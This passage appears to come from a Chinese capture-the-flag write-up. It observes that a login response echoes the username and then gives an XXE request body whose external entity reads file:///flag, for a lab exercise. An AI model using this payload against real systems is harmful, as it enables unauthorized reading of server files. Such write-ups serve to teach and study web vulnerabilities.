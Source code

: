 ![alt text](image-23.png)  

---  

查看响应内容，在msg标签返回了用户名，可以尝试xxe攻击，将flag在msg标签返回  
![alt text](image-24.png)  

---  

构造请求体  

```xml
<?xml version="1.0"?>
<!DOCTYPE user[
<!ENTITY root SYSTEM "file:///flag">
]>
<user>
<username>&root;</username>
<password>ddd</password>
</user>
```  

---  